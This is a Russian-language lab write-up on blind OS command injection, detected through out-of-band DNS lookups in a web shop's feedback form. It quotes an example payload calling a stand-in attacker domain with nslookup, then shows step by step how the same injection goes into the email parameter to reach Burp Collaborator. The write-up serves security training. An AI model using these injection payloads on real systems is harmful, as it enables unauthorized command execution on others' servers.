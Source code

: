 Эксплуатация слепого внедрения команд ОС с использованием внеполосных (OAST) методов
Вы можете использовать введенную команду, которая запустит внеполосное сетевое взаимодействие с системой, которой вы управляете, используя методы OAST. Например:

& nslookup kgji2ohoyw.web-attacker.com &
Эта полезная нагрузка использует nslookupкоманду для вызова поиска DNS для указанного домена. Злоумышленник может отслеживать, происходит ли поиск, чтобы подтвердить, была ли команда успешно внедрена.

В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Команда выполняется асинхронно и не влияет на ответ приложения. Невозможно перенаправить вывод в место, к которому вы можете получить доступ. Однако вы можете инициировать внеполосные взаимодействия с внешним доменом.

Для решения лабораторной задачи воспользуйтесь уязвимостью слепого внедрения команд ОС, чтобы выполнить DNS-запрос к Burp Collaborator.

1. Нас встречает сайт с продуктами, и справа сверху есть кнопка "Отправить отзыв" переходим, включаем Burp, заполняем случайными значениями, и отправляем отзыв:

![image](https://github.com/user-attachments/assets/260fbb4d-077d-4953-9adb-458bc009c82e)

2. Перекидываем в Repeater POST запрос к /feedback/submit, и вставляем в параметр email: ||nslookup+burp.collaborator.oastify.com|| :

![image](https://github.com/user-attachments/assets/b96bab72-323f-4c87-bf95-e6b816be78f9)
